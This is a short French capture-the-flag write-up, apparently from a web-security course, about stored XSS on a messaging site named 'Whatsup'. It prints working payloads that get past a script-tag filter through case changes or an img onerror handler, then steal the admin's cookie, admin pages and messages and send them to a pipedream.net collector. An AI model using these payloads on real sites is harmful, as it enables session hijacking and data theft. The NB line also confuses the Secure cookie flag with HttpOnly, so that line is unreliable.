 # Whatsup 1

Les failles XSS consistent à executer du code sur la machine d'un autre utilisateur et potentielement un utilisateur qui possède des droits plus élevés.

Nous avons donc pensé à récupérer le cookie de l'admin via une faille XSS.

Le site est un site de messagerie semblable à whatsapp ou messenger. 
Alors on a envoyé un message avec un script js à l'admin. Le but était de récupérer son cookie d'authentification et l'envoyer à un serveur.

```
<sCriPt>fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:document.cookie;});</ScRipt>
```
Il y avait un mécanisme de sécurité sensé evitér les faille XSS en empêchant d'écrire `<script>` mais nous l'avons bypass en écrivant `<sCriPt>`.

Nous avons ouvert un serveur pipedream pour récuperer ce cookie et cela a bien fonctionné.

NB:

Il nous a fallu du temps avant de comprendre qu'il fallait récupérer le cookie car, de notre côté, il avait le flag `Secure` qui empêche Javascript d'y acceder.

Nous avons donc acceder aux messages de l'admin, d'envoyer des messages en tant qu'admin et d'accèder à la page admin.html.

```
<sCriPt>fetch("//whatsup.secu-web.blackfoot.dev/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/messages",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/messages/116",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("/admin",{method:"POST",body:""}).then((e=>e.text())).then((e=>{fetch("//eornrwibpnp988b.m.pipedream.net",{method:"POST",body:e})}));</ScRipt>
<sCriPt>fetch("http://whatsup:8000/admin%22,%7Bmethod:%22GET%22%7D).then((e=%3Ee.text())).then((e=%3E%7Bfetch(%22http://eornrwibpnp988b.m.pipedream.net%22,%7Bmethod:%22POST%22,body:e%7D)%7D));</ScRipt>
```

# Whatsup 2

Exactement la même manipulation mais en cachant le script js dans une image.

```
src = "x " onerror ="var sdfd=['\x69'];function e(){  fetch('//eotuo54cchosrud.m.pipedream.net',{method:'POST',body:document.cookie}) }e()    "
```
